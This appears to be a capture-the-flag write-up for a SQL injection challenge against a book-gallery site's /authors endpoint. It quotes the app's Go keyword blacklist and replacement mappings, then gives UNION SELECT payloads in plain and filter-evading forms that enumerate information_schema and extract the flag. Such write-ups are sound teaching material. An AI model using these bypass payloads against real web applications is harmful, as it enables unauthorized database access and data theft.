


# SQL Injection Challenge Write-up

## Initial Analysis


The website displays a gallery of books. By examining the source code, I identified 3 endpoints: homepage, `/book`, and `/authors`.


In the `AuthorController.go` source code, there's a query that displays names or `birth_country`, or `birth_city` that match the `searchQuery`.

## Discovery Process

### Testing the `/authors` Endpoint



When I initially tested the `/authors` endpoint, the query didn't work and still displayed all authors from the database.

Upon further investigation, I discovered that **more than 1 query parameter is required** to make it work. Without this, the query is treated as the letter "A".




I retested by adding `&query=` and the database query worked. This led me to assume this was a SQL injection challenge, but when I tried inserting a single quote, nothing happened - no error was returned as expected.

### Source Code Analysis

After reviewing the source code again, I found the `SanitizedData` function that performs blacklisting on several words and characters, and also performs character replacement, including replacing single quotes with the string "uuu".

```go
blacklist := []string{
    "UNION", "SELECT", "INSERT", "UPDATE", "DELETE", "DROP", "CREATE",
    "ALTER", "EXEC", "EXECUTE", "FROM", "WHERE", "ORDER", "GROUP",
    "HAVING", "INTO", "VALUES", "SET", "SCHEMA", "LOAD_FILE",
    "OUTFILE", "DUMPFILE", "CONCAT", "SUBSTRING", "ASCII", "CHAR",
    "VERSION", "USER", "SLEEP", "BENCHMARK", "WAITFOR", "DELAY",
    "TABLE", "COLUMN", "DATABASE", "DATABASES", "TABLES", "COLUMNS",
    "AND", "OR", "NOT", "LIKE", "BETWEEN", "IS", "NULL",
    "TRUE", "FALSE", "LIMIT", "OFFSET", "DISTINCT", "EXISTS",
    "CASE", "WHEN", "THEN", "ELSE", "END", "IF", "ELSEIF",
    "CAST", "CONVERT", "CHARSET", "COLLATE", "INDEX", "KEY",
    "PRIMARY", "INFORMATION_SCHEMA", "SHOW", "GRANT", "REVOKE",
    "'", "\"", ";", "--", "/*", "*/", "||", "&&", "XOR",
    "=", "<", ">", "!", "+", "-", "*", "/", "%", "^",
    "(", ")", "[", "]", "{", "}", "|", "&", "~",
}

specialBlacklist := []string{
    "CaT", "MiaW", "Auuu", "uuu", "uaA", "hurra", "titik", "sd",
}
```

**Character Replacement Mappings:**
- `CaT` → `#`
- `MiaW` → `;`
- `Auuu` → `-`
- `uuu` → `'`
- `uaA` → `,`
- `hurra` → `_`
- `titik` → `.`
- `sd` → `=`

## Exploitation

### Step 1: Confirming SQL Injection


I replaced the single quote with the string "uuu" as per the source code. The web application successfully returned a MySQL error message, confirming the database type.

### Step 2: Enumerating Tables

**Original payload:**
```sql
' UNION SELECT table_name,2,3,4,5 FROM information_schema.tables # 
```

**Bypassed payload:**
```
uuu%20UnIoN%20sElEcT%201uaA2uaAtTABLEtableablehurranameuaA4uaA5%20FrOm%20infooORrrmationhurrasSCHEMAschemachematitikttTABLEtableablesables%20CaT
```

**Bypass Strategy:**
- For MySQL syntax keywords: Use mixed case manipulation
- For non-syntax words: Combine string fragments to form the original word


This payload revealed a table with an unusual name: `d2g0dDFzdGgxcw`

### Step 3: Enumerating Columns

**Original payload:**
```sql
' UNION SELECT column_name,NULL,NULL FROM information_schema.columns WHERE table_name='d2g0dDFzdGgxcw' # 
```

**Bypassed payload:**
```
uuu%20UnIoN%20sElEcT%201uaA2uaAcCOLUMNcolumnolumnhurranameuaA4uaA5%20FrOm%20infooORrrmationhurrasSCHEMAschemachematitikccCOLUMNcolumnolumnsolumns%20wHeRe%20tTABLEtableablehurranamesduuud2g0dDFzdGgxcwuuu%20CaT
```


This successfully displayed the column names in table `d2g0dDFzdGgxcw`: 
- `tirai_satu`
- `tirai_dua` 
- `tirai_tiga`

### Step 4: Extracting the Flag

**Final payload:**
```sql
' UNION SELECT 1,tirai_satu,tirai_dua,tirai_tiga,5 FROM d2g0dDFzdGgxcw #
```

**Bypassed payload:**
```
uuu%20UnIoN%20sElEcT%201uaAtiraihurrasatuuaAtiraihurraduauaAtiraihurratigauaA5%20FrOm%20d2g0dDFzdGgxcw%20%20CaT
```


The web application displayed the flag in the `tirai_tiga` column.

## Flag

```
HiB25{Th3_tru3_fl4g_1s_only_f0r_tru3_w4rr10r5_g00d_luck_champs}
```

## Summary

This challenge required bypassing a sophisticated input sanitization system that:
1. Blacklisted common SQL injection keywords and characters
2. Used special string replacements to obfuscate filter bypasses
3. Required understanding of both case manipulation and string fragmentation techniques

The key to success was carefully analyzing the sanitization function and crafting payloads that would reconstruct the intended SQL syntax after passing through the filters.